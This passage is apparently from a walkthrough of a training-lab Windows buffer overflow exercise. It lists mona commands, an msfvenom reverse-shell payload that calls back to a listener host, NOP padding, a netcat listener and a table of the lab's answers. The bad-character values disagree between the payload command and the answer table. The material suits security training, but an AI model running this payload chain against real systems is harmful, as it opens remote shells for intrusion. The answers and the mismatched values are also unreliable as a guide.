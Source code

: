 After the program crashed run the following mona command with the `ESP` address value at the end


```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>

```

The popup window will show all the badchars. take only first of the sequence.


Generating the payload ( put all the badchars after `-b` )

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.48.110 LPORT=4444 EXITFUNC=thread -f c  -b "\x00\x07\x2e\xa0"
```


Copy the array value and update it to the `payload` variable of `exploit.py` program ( use `()` and paste inside it )


Finding the jump point ( put all the badchars after `-cpb` )

```
!mona jmp -r esp -cpb "\x00"
```

Take any of the address found by the above command and put it backward like `AABBCCDD` => `\xDD\xCC\xBB\xAA` into the `retn` variable of the above `exploit.py` program.


### Prepend NOP's 

Update the `padding` variable in `exploit.py` program with `"\x90" * 16` the line should look like 

```
padding = "\x90" * 16

```

### Getting a shell


Now run a netcat listener with the port defined at the time of generating payload on your local machine

```
nc -lvnp 4444

```

Run the server on target


Run the `exploit.py` from local kali machine





| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the EIP offset for OVERFLOW1 ? | 1978 |
| What are the badchars for OVERFLOW1 ? (in byte order) | \x00\x07\x2E\xA1 |
